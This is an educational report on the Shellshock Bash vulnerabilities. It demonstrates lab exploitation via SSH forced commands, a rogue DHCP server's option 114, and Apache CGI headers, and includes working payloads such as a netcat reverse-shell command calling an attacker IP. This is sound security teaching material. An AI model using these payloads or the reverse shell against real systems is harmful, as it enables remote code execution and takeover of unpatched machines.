







# Introduction
In 2014, security researchers found a series of injection vulnerabilities in Bash that came to be known as Shellshock. Several of the vulnerabilities had been in Bash for over 25 years before they were patched. The widespread use of Bash caused many different programs and millions of Unix-based computers to be vulnerable. These injection vulnerabilities could allow attackers to send malicious inputs to a vulnerable server that gave them complete control of the system.

The Bourne-Again Shell (Bash) is a commonly used command shell on many different Unix-based operating systems. Versions of Bash exist for Linux, BSD, macOS, and more. The same vulnerability was able to so many of these operating systems because all of the versions shared much of the same codebase. As a shell, Bash is used to execute commands on a computer. Bash can be used either interactively by a user to type in commands or non-interactively by other computer programs. The commonality of Bash has resulted in many other programs relying on Bash to run commands non-interactively. Programs such as a web browser might use Bash in the background without a user knowing. Using Bash can help some programs be more portable across operating systems but also helped Shellshock affect a wide variety of systems.

Injection vulnerabilities allow an attacker to create malicious inputs that alter the expected behavior of a system. Most computer systems follow a pattern of accepting inputs, processing the input, and then taking an action. Developers must be careful when making assumptions about inputs because attackers can sometimes break these assumptions and cause unexpected behavior. It is especially dangerous to pass user input to an interpreter, such as Bash, because it is designed to create new behavior. If an injection vulnerability can be exploited to create arbitrary behavior in a remote system, it is called Remote Code Execution (RCE). RCE is the worst case scenario of an injection vulnerability because it allows an attacker to do anything they want to a system without needing physical access.

Shellshock makes remote achieving RCE as simple as:
1. Find a program that accepts input over the Internet
2. The input is processed and stored in an environment variable
3. The program runs Bash

It turns out that this simple vulnerability and steps are applicable to many different common applications because so many depend on Bash to run commands. Therefore, this one vulnerability in Bash creates countless vulnerabilities in other programs. This report will examine exactly how Shellshock works and demonstrate how it can be used to exploit well-known services.

# Breaking down the Vulnerabilities
Shellshock consists of several different vulnerabilities that relate to how Bash handles environment variables. These variables allow a user or script to define a value once and then reuse that value again by giving it's name. An environment variable definition in Bash might look like `GREETING="Hello, World"`. After defining this variable, the value `Hello, World!` can be used again by just typing `$GREETING`. Programs frequently pass arguments or configuration values to Bash by assigning variables before invoking it. However, environment variables can also accidentally leak into Bash because by default any environment variables set in the original processes environment will be set in Bash's environment. This behavior can cause the unintended consequences of leaking sensitive information and create potential vulnerabilities.

Bash scripts can define functions that contain sections of code that can be reused. A function is properly defined using the syntax, `hello() { echo "Hello"; }` which would define a function called `hello` that would print `Hello`. Before Shellshock, Bash scripts stored functions as environment variables. Therefore, the same function could equivalently be defined in an environment variable with `hello=() { echo "Hello"; }`. This behavior allowed Bash scripts to export functions as environment variables and allow a sub-shell to use them. However, this feature has been removed and will no longer work in modern versions of Bash.

The original Shellshock vulnerability, CVE-2014-6271, comes from how Bash implemented importing functions stored in environment variables. Whenever a new shell was created, it would automatically look through the environment variables for functions and import all of them. Each function was imported by simply removing the `=` and evaluating the result [1]. For example, the variable `hello=() { echo "Hello"; }` would become `hello() { echo "Hello"; }`. However, CVE-2014-6271 observes that this behavior can be exploited by appending extra code to the end of the function definition. This vulnerability means that if attacker can store a malicious payload in an environment variable, they can achieve arbitrary code execution whenever a Bash shell is created. Many other flaws were found in how Bash imported functions and resulted in this behavior being completely changed to remove the entire class of vulnerabilities.

## Demonstrating CVE-2014-6271
Demonstrating Shellshock requires a vulnerable version of Bash. For my testing, I used [Ubuntu 12.04.5 Precise Pangolin](https://releases.ubuntu.com/12.04/). The installer image for this release was created just before Shellshock was discovered and contains a vulnerable version of Bash 4.2. However, it can be difficult to determine whether or not a specific version number of Bash is vulnerable because almost every version has now received patches from different OS vendors[2]. Instead, the standard way to determine if a specific version has been patched is to run test commands and observe the output. A comprehensive test script can be found [here](https://github.com/hannob/bashcheck).

```
# (1)                             (2)
$ env X='() { :; }; echo "pwned"' bash -c :
```
This is the standard test string to observe if Bash has been patched for CVE-2014-6271 [1]. If it is vulnerable, it will print `pwned`. Otherwise, it will print nothing.

This command consists of two sub-commands. (1) creates a new environment and assigns the variable X to the string value `() { :; }; echo "pwned"`. The value stored in X is the special Shellshock string that is designed to exploit CVE-2014-6271. (2) invokes a new bash shell with the command `:`, which means do nothing.

```
(1)       (2)
() { :; }; echo "pwned"
```
The first half (1) of this payload is the definition of an anonymous function that does nothing. The second half (2) is the malicious payload that will be executed when the function is imported. Any arbitrary command or series of commands can be appended to the function definition to achieve arbitrary code execution. This exploit works because of how the function is imported. The `=` is just removed and the line `X() { :; }; echo "pwned"` is passed to the Bash interpreter. The semi-colon acts as a new-line break, and the definition of the `X` function and the malicious payload are both executed.

```
$ env X='() { :; }; nc <attacker_ip> <port> -e /bin/bash &' bash -c :
```
This example can be used to open a reverse shell using the same exploit. On the attacker's computer, run `nc -lvp <port>` to listen for the victim calling home. Replace `<attacker_ip>` with address of the attacker's machine and `<port>` with a port number. This example works by using netcat to open a Bash session and redirect the input and output to the attacker's machine. The `&` operator means that the session is opened in the background without the client knowing.

# SSH
Secure Shell (SSH) is a service that allows user to securely access a shell on a remote computer. SSH is commonly used because it is extremely useful to be able to execute commands on a remote computer as if you were sitting in front of it. However, the power and ease of use of SSH can create security vulnerabilities if it is improperly secured. By default, SSH will use password authentication to allow users to login with the same password as their account password. For additionally security, a user can instead use a public/private key pair to authenticate with the server. To enable key-based authentication, a user would add their public key to `~/.ssh/authorized_keys`. Then, the user could disable password authentication and securely log into the computer with their private key.

SSH can be used for both full and restricted shell access. Developers frequently use SSH to manage remote and virtual machines because it allows complete control of the system remotely. In this use case, a developer wants to be able to execute arbitrary commands and have a full shell. However, SSH can also be used by programs to access other machines or automate tasks. It is a good security practice to only give a services the minimum required permissions. Instead of allowing a service to execute arbitrary commands over SSH, a "Forced Command" can be used to restrict a user to only executing one command. When a Forced Command is specified, this user should not be able to execute any other commands.

SSH can be exploited using Shellshock to breakout of a Forced Command and achieve arbitrary remote code execution. This exploit will only work if the remote user's shell is Bash. In order to use Shellshock, an attacker just needs to find a way to set an environment variable on the remote machine. A malicious environment variable will then be imported and executed before the Forced Command is executed. Two potential ways to set an environment variable are through the `LC_*` or `SSH_ORIGINAL_COMMAND` variables.

## Forced Command Exploit
First, make sure that the OpenSSH server is installed on the machine you want to log into.
```
$ sudo apt-get install openssh-server
```

Then, enable a forced command by modifying the `~/.ssh/authorized_keys` using the following pattern:
```
command="<command>" <public key> <comment>
```
Example:
```
command="echo goodbye" ssh-rsa AAAAB3Nza...IhoZ+pvQKj ubuntu@precise 
```

<div style="text-align:center">
    
    <br/>
    <p>Expected behavior of a Forced Command.</p>
</div>

### LC_*
By default, the config file `/etc/ssh/sshd_config` will include the line `AcceptEnv LANG LC_*`. This line tells the SSH daemon to automatically copy these environment variables from the user's shell to the remote shell [4]. All an attacker needs to do is set one of these variables to a Shellshock payload before SSHing, and it will be copied to the remote shell. If the remote shell is Bash, the payload will automatically be run when the shell is created.
```
$ env LC_PAYLOAD='() { :; }; echo "pwned"' ssh <user>@<server address>
```

<div style="text-align:center">
    
    <br/>
    <p>Demonstration of an LC_* exploit.</p>
</div>

### SSH_ORIGINAL_COMMAND
Normally a user can execute a single command over SSH by appending it to the SSH command. When using a Forced Command, the appended command is ignored, but it is stored in the SSH_ORIGINAL_COMMAND environment variable [5]. This feature can then be exploited by including the Shellshock payload in the original command. The payload will then be executed automatically before the Forced Command is run.
```
$ ssh <user>@<server address> '() { :; }; echo "pwned"'
```

<div style="text-align:center">
    
    <br/>
    <p>Demonstration of an SSH_ORIGINAL_COMMAND exploit.</p>
</div>

# DHCP
The Dynamic Host Configuration Protocol (DHCP) defines a method for dynamically allocating IP addresses to clients in a computer network. DHCP allows client devices to seamlessly join a network, receive an address, and start communicating. Without DHCP, users would have to manually choose an address and ensure no other user was using the same address. DHCP uses a client/server architecture. When a client joins a network, it will broadcast a "DHCP Discover" message. One or more DHCP servers will receive the broadcast and send back a "DHCP Offer". The server is responsible for keeping track of available IP addresses, and the offer will contain an IP address along with other configuration options. The client will accept one of the offers it receives and can now use that address to communicate on the network.

On Unix operating systems, the `dhclient` command provides methods for automating the process of requesting an address and configuring a network interface to use it. `dhclient` includes a hook system, called `dhclient-script` to allow other programs to register callbacks for when a DHCP offer is accepted or an address is released. On Ubuntu 12.04, the `/etc/dhcp/dhclient-enter-hooks.d` and `/etc/dhcp/dhclient-exit-hooks.d` directories contain the scripts to be automatically executed by the hooks. Each script is automatically executed using Bash and the details of the DHCP offer are stored in environment variables. This feature allows seamlessly connecting to a network but creates the potential for security vulnerabilities.

A malicious DHCP server could exploit `dhclient-script` using Shellshock to achieve remote code execution on DHCP clients. Any values included in the DHCP offer to a client will be passed into each of the hooks via environment variables. If one of these values contains a Shellshock payload, it will be run automatically run when a client accepts the DHCP offer [6]. This vulnerability has a very high severity because the scripts are evaluated as root and are executed automatically when connecting to a network. Executing a script as the root user means that remote code execution will have the highest permissions of that machine and can completely compromise it. Therefore, a machine can be completely compromised by just being on a network with the malicious server.

## Creating a Malicious DHCP Server
The first step to creating a malicious DHCP server is to find a place to include our payload in the DHCP offer. The work of security researchers identified option 114 as one possible way [6]. Option 114 is described as the "default url" field. This option is widely supported by DHCP clients despite not serving any purpose [7]. It is the perfect place to include our payload because it is a string field and clients will recognize it as a valid option, but other options could also likely be used.

### Server Configuration
This demonstration was once again designed for Ubuntu 12.04, but it could be modified to work on other operating systems. On the attacker machine: 
1. First install a DHCP server with `sudo apt install isc-dhcp-server`
2. Modify `/etc/dhcp/dhcpd.conf` to contain the following:
```
default-lease-time 600;
max-lease-time 7200;

subnet 192.168.1.0 netmask 255.255.255.0 {
 range 192.168.1.150 192.168.1.200;
 option routers 192.168.1.1;
 option domain-name-servers 8.8.8.8;
 option domain-name "mydomain.example";
 option default-url "() { :; }; /bin/echo pwned";
 option dhcp-parameter-request-list = concat(option dhcp-parameter-request-list, 72);
}
```
You can change the subnet and IP addresses to match your environment. The `default-url` option contains the Shellshock payload. The payload can be modified to execute any arbitrary command. The `dhcp-parameter-request-list` is necessary because by default the server will only send back options that the client asked for [9]. This configuration always sends back option 114 (0x72) even if the client did not ask for it.
3. Edit `/etc/default/isc-dhcp-server` so that it contains `INTERFACESv4="eth0"`. Replace `eth0` with the network interface to bind the server.
4. Restart the service with `sudo service isc-dhcp-server restart`

<div style="text-align:center">
    
    <br/>
    <p>Wireshark capture of DHCP traffic that shows a Shellshock payload in option 114.</p>
</div>

### Manually calling dhclient
On the victim machine, connect to the same network as the attacker machine and at the command line type `sudo dhclient <network_interface>`. You will observe that the server's payload is executed. In this example, you will see `pwned` printed.

<div style="text-align:center">
    
    <br/>
    <p>Demonstration of dhclient running the Shellshock payload.</p>
</div>

### Automatically Comprising Machines
 - Note: The potential to automatically comprise a network computer without any user interaction is much more concerning but proved to be more difficult to actually implement. Ubuntu 12.04 Desktop uses the NetworkManager package for providing a nice UI for managing network connections. NetworkManger still uses `dhclient` in the background but replaces the `dhclient-script` hooks with its own hook system [10]. Therefore, the vulnerability will not work automatically with Ubuntu 12.04 Desktop unless NetworkManager has been disabled and network interfaces are manually configured to use DHCP in `/etc/network/interfaces`.

On any machine vulnerable to Shellshock and that uses `dhclient-script` just connect to the same network as the malicious DHCP server and your machine will execute the malicious script.

# Apache CGI
Apache is a frequently used web server on Unix systems, and it can be vulnerable to a Shellshock exploit if it uses CGI scripts. The Common Gateway Interface (CGI) is a way of allowing any program or programming language to generate content for Apache to serve [11]. Before modern web frameworks, CGI scripts were a common method for implementing a web server backend. A CGI script is placed in a specific directory on the server and is executed whenever a client requests a specific endpoint. The resulting output to stdout will be then be returned to the client as an HTTP response. When invoking the script, information about the request is communicated using environment variables. If a CGI script is written in Bash script, then it can be vulnerable to Shellshock because an attacker can include a Shellshock payload in an HTML request, and Apache will automatically include the payload in an environment variable.

### Installing Apache
Install Apache and Curl [12]
```
$ sudo apt-get install apache2 curl
```

Enable CGI
```
$ cd /etc/apache2/mods-enabled
$ sudo ln -s ../mods-available/cgi.load
```

Restart Apache
```
$ sudo service apache2 reload
```

### Create a CGI Script
Create `/usr/lib/cgi-bin/test.sh` with the following contents:
```
#!/bin/bash
printf "Content-type: text/html\n\n"
env
```

Make the script executable:
```
$ sudo chmod +x /usr/lib/cgi-bin/test.sh
```

### Exploit Apache CGI
First, observe how the script is supposed to work. This script will print out the contents of the environment variables so that you can see how Apache passes information about the request to the script.
```
$ curl localhost/cgi-bin/test.sh
```

<div style="text-align:center">
    
    <br/>
    <p>Demonstration of intended behavior of CGI script and environment variables.</p>
</div>

Now, we will exploit the server by including a Shellshock payload in a HTTP header on our request [13]:
```
$ curl localhost/cgi-bin/test.sh  -H "custom:() { :; }; echo Content-Type: text/html; echo; /usr/bin/id"
```
This payload is slightly different from previous payloads because it needs to include the content type to be recognized by Apache as a valid response. The command `/usr/bin/id` could be replaced by a reverse shell to gain remote access to the web server. However, the `id` command will return `uid=33(www-data) gid=33(www-data) groups=33(www-data)` which means that Apache is running as its own user (www-data) instead of root. This design decision by Apache reduces the severity of this vulnerability and demonstrates the importance of only giving services the minimum permissions.

<div style="text-align:center">
    
    <br/>
    <p>Demonstration of Apache exploit that executes the id command.</p>
</div>

# Conclusion
By itself Shellshock seems innocuous, but when combined with how other programs used Bash, it created serious security vulnerabilities. The simple command line examples of CVE-2014-6271 had no privilege escalation or RCE. Instead, the vulnerability seems like a roundabout way of executing commands as the same user. However, combining Shellshock with the widespread practice of assigning environment variables without any validation made this vulnerability very serious. SSH is configured by default to accept certain environment variables without any validation; `dhclient-script` blindly took the contents of a DHCP offer and sent it to Bash through environment variables; and Apache CGI uses environment variables to pass data by design. All of these programs could have prevented Shellshock from affecting them by properly validating and sanitizing inputs before sending them to Bash.

Examining how and why the Shellshock vulnerabilities were created can help prevent creating similar vulnerabilities in the future. When asked why he believed Shellshock was not discovered earlier, the original researcher said that he believed the flaw would have been obvious to any security researcher [2]. Many software developers do not consider the security implications of their design and implementation decisions. If someone had taken the time to identify all and examine of the input sources to Bash, they probably could have discovered this flaw in the handling of environment variables. The researcher also believes that professionals writing Bash scripts focused too much on the security of their code and not enough on the security of the interpreter [2]. Shellshock was able to impact so many different programs that relied on Bash because of how so many programs use environment variables without considering the security implications. Shellshock teaches us that developers need to be aware of all of the inputs sources to their systems and ensure that each input has assumptions about it validated.

# Sources
1. [OWASP presentation with explanation and demonstration](https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf)
2. [StackExchange explanation from Stephane Chazelas, the researcher who found CVE-2014-6271](https://unix.stackexchange.com/questions/157381/when-was-the-shellshock-cve-2014-6271-7169-bug-introduced-and-what-is-the-pat/157495#157495)
3. [Proof of concept code and list of vulnerable programs](https://github.com/mubix/shellshocker-pocs)
4. [SSH LC_* demonstration](https://www.zdziarski.com/blog/?p=3905)
5. [SSH_ORIGINAL_COMMAND demonstration](https://unix.stackexchange.com/questions/157477/how-can-shellshock-be-exploited-over-ssh)
6. [DHCP Shellshock Exploit](https://blog.trendmicro.com/trendlabs-security-intelligence/bash-bug-saga-continues-shellshock-exploit-via-dhcp/)
7. [List of DHCP Option Codes](https://tools.ietf.org/html/rfc3679)
8. [Install DHCP Server on Ubuntu](https://ubuntu.com/server/docs/network-dhcp)
9. [DHCP Server won't send options](https://askubuntu.com/questions/912252/dhcp-server-wont-send-options)
10. [NetworkManager doesn't use dhclient-script hooks](https://andytson.com/blog/2009/03/workaround-so-networkmanager-runs-dhclient-hooks/)
11. [Apache Tutorial: Dynamic Content with CGI](http://httpd.apache.org/docs/2.4/howto/cgi.html)
12. [Install Apache with CGI on Ubuntu](https://code-maven.com/set-up-cgi-with-apache)
13. [Exploiting Apache CGI with Shellshock](https://www.surevine.com/shellshocked-a-quick-demo-of-how-easy-it-is-to-exploit/)